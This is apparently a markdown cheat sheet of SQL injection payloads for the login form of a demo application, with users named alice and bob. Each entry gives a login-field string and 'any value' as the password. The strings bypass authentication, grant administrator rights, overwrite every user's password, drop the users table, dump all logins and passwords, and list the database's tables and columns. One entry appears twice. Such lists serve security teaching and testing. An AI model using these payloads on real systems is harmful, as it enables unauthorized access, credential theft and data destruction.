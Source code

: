 #### bypass password check:

login: 

	alice'--
	
password: any value

#### Log as administrator without password check:

login: 

	alice'; select LOGIN, FIRST_NAME, LAST_NAME, true as IS_ADMIN from USERS where login='alice'--
	
password: any value

#### update password of all users :
login: 

	alice'; update USERS set password='qwerty'--

password: any value

#### update password of one users :
login: 

	alice'; update USERS set password='qwerty' where userDTO='bob'--

password: any value

#### Drop a table :
login: 

	alice'; DROP TABLE users CASCADE --

password: any value

#### Extract list of users/password :
login:

	alice'; select 'alice' as LOGIN, (SELECT GROUP_CONCAT(login) FROM USERS) as FIRST_NAME, (SELECT GROUP_CONCAT(password) FROM USERS) as LAST_NAME, password, is_admin from USERS where login='alice'--

password: any value

#### update password of one users :
login:

	alice'; update USERS set password='qwerty' where userDTO='bob'--

password: any value


#### List SQL tables and columns names:

login:

	alice'; select 'alice' as LOGIN, (SELECT  GROUP_CONCAT(DISTINCT CONCAT(TABLE_NAME, '.', COLUMN_NAME) order by TABLE_NAME) FROM INFORMATION_SCHEMA.SYSTEM_COLUMNS) as FIRST_NAME, LAST_NAME, PASSWORD, IS_ADMIN from USERS where login='alice'--
